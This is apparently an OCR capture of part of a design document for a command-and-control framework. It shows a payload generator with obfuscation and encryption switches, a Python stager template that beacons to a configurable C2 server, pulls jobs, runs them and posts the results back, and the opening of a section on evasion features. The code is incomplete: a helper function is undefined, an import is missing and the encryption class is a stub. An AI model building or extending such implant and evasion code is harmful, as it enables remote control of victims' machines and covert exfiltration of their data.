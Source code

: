     def generate(self, payload_type, config):
        """Generate payload with specified configuration"""
        template = self.templates[payload_type]
        payload = template.render(config)
        
        # Apply obfuscation and encryption
        if config.get('obfuscate', False):
            payload = self.obfuscator.obfuscate(payload)
        if config.get('encrypt', False):
            payload = self.encryptor.encrypt(payload)
            
        return payload

class StagerTemplate:
    """Base stager template for different languages"""
    def render(self, config):
        raise NotImplementedError

class PythonStager(StagerTemplate):
    def render(self, config):
        return f"""
import requests
import subprocess
import base64

C2_SERVER = "{config['c2_server']}"
AGENT_ID = "{config['agent_id']}"

def beacon():
    while True:
        try:
            response = requests.post(f"{{C2_SERVER}}/jobs", 
                                   json={{'agent_id': AGENT_ID}})
            jobs = response.json()
            
            for job in jobs:
                result = execute_job(job)
                requests.post(f"{{C2_SERVER}}/results", 
                            json={{'agent_id': AGENT_ID, 'result': result}})
        except:
            time.sleep(60)
"""
6. Security & Evasion Features
6.1 Communication Security
python
class EncryptionManager:
    def __init__(self):
        self.session_key = None
        
    def establish_session(self, agent_public_key):
        """Establish encrypted session with agent"""
        # Implement ECDHE key exchange
        pass
        